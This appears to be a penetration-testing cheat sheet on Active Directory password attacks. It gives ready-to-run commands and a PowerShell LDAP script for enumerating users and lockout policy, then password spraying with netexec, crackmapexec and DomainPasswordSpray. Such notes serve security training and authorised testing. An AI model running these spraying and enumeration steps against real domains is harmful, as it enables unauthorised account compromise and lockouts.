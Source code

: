 # AD Password Attacks
##  Enumerating the Password Policy
- PowerShell
``` powershell
net account
```
Note: **Lockout threshold** which indicates a limit of _numbers_ login attempts before lockout.
- [PowerView](https://github.com/MGamalCYSEC/Active-Directory-Enumeration-and-Attacks/blob/main/Tools/PowerView.ps1)
``` powershell
import-module .\PowerView.ps1
Get-DomainPolicy
```
## Making a Target User List
### From Kali Linux
#### Using `crackmapexec` for Enumeration:
- **Enumerate Users**:
  ```bash
  crackmapexec smb <Domain_Controller_IP> -u <username> -p 'LegmanTeamBenzoin!!' --users
  ```
- **Retrieve Password Policies**:
  ```bash
  crackmapexec smb <Domain_Controller_IP> -u <username> -p 'LegmanTeamBenzoin!!' --pass-pol
  ```

#### Using `rpcclient` for Enumeration:
- **Connect to RPC**:
  ```bash
  rpcclient -U <username>%'Password' <Domain_Controller_IP>
  ```
- **Retrieve Password Policies**:
  ```bash
  getdompwinfo
  ```
- **Enumerate Users**:
  ```bash
  enumdomusers
  ```
  *(Lists domain users if accessible)*
- **Filter the Output**:
  ```bash
  cat users.txt | cut -d "[" -f 2 | cut -d "]" -f 1
  ```

#### Using `enum4linux-ng` for Enumeration:
- **Enumerate Users**:
  ```bash
  python3 enum4linux-ng.py -U <Domain_Controller_IP> -u <user> -p <password>
  ```
- **Extract Usernames**:
  ```bash
  python3 enum4linux-ng.py -U <Domain_Controller_IP> -u <user> -p <password> | grep "username:" | cut -d " " -f 4
  ```

---

### From a Joint Domain Windows Machine

#### Using a PowerShell Script for LDAP Queries:

1. **Save Script as `enumeration.ps1` and Import**:
   ```powershell
   powershell -ep bypass
   Import-Module .\enumeration.ps1
   ```

2. **LDAP Query Functions**:
   ```powershell
   function LDAPSearch {
       param (
           [string]$LDAPQuery
       )
       $PDC = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain().PdcRoleOwner.Name
       $DistinguishedName = ([adsi]'').distinguishedName
       $DirectoryEntry = New-Object System.DirectoryServices.DirectoryEntry("LDAP://$PDC/$DistinguishedName")
       $DirectorySearcher = New-Object System.DirectoryServices.DirectorySearcher($DirectoryEntry, $LDAPQuery)
       return $DirectorySearcher.FindAll()
   }

   function Get-LDAPObjectProperties {
       param (
           [string]$ObjectName
       )
       $PDC = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain().PdcRoleOwner.Name
       $DistinguishedName = ([adsi]'').distinguishedName
       $DirectoryEntry = New-Object System.DirectoryServices.DirectoryEntry("LDAP://$PDC/$DistinguishedName")
       $DirectorySearcher = New-Object System.DirectoryServices.DirectorySearcher($DirectoryEntry)
       $DirectorySearcher.Filter = "name=$ObjectName"
       $Results = $DirectorySearcher.FindAll()
       Foreach ($Result in $Results) {
           Foreach ($Property in $Result.Properties.PropertyNames) {
               Write-Host "$Property : $($Result.Properties[$Property])"
           }
           Write-Host "-------------------------------"
       }
   }
   ```

3. **Common Queries**:
   - **Query All Groups**:
     ```powershell
     LDAPSearch -LDAPQuery "(objectclass=group)"
     ```
   - **Get Users and Groups Using `samAccountType`**:
     ```powershell
     LDAPSearch -LDAPQuery "(samAccountType=805306368)"
     ```
     **Common `samAccountType` Values**:
     - `0x30000000` (Decimal **805306368**): **User objects**.
     - `0x30000001` (Decimal **805306369**): **Computer objects**.
     - `0x30000002` (Decimal **805306370**): **Group objects**.
     - `0x10000000` (Decimal **268435456**): **Domain object** (top of the hierarchy).
     - `0x20000000` (Decimal **536870912**): **Built-in group** (default admin/system groups).

4. **Retrieve All Group Members**:
   ```powershell
   foreach ($group in $(LDAPSearch -LDAPQuery "(objectCategory=group)")) {
       $group.properties | select {$_.cn}, {$_.member}
   }
   ```

5. **Get Specific Group Members**:
   ```powershell
   $group = LDAPSearch -LDAPQuery "(&(objectCategory=group)(cn=Management Department*))"
   $group.properties.member
   ```
### **Active Directory Enumeration Using PowerView**

#### **List All Users in the Domain**
```powershell
Get-NetUser
```

#### **Query Users with Specific Attributes**
1. **Retrieve User Common Names (CN):**
   ```powershell
   Get-NetUser | select cn
   ```

2. **Display Users with Password Last Set and Last Logon Information:**
   ```powershell
   Get-NetUser | select cn, pwdlastset, lastlogon
   ```

#### **Filter for a Specific User**
- **Filter by `SamAccountName`:**
  ```powershell
  Get-NetUser | Where-Object { $_.SamAccountName -eq "UserName" }
  ```
# **Password Spraying**

#### **From Kali Linux**

1. **Using `Netexec` (A Newer Version of Crackmapexec):**
   ```bash
   netexec smb <IP-RANGE> -u users.txt -p 'Password123' --continue-on-success
   ```

2. **Using `Crackmapexec`:**
   ```bash
   crackmapexec smb <IP-RANGE> -u users.txt -p 'Password123' --continue-on-success
   ```

---

#### **From a Foothold on a Domain-Joined Windows Host**

- **Tool: [DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray)**

1. **Import the Module:**
   ```powershell
   Import-Module .\DomainPasswordSpray.ps1
   ```

2. **Perform Password Spraying:**
   ```powershell
   Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue
   ```
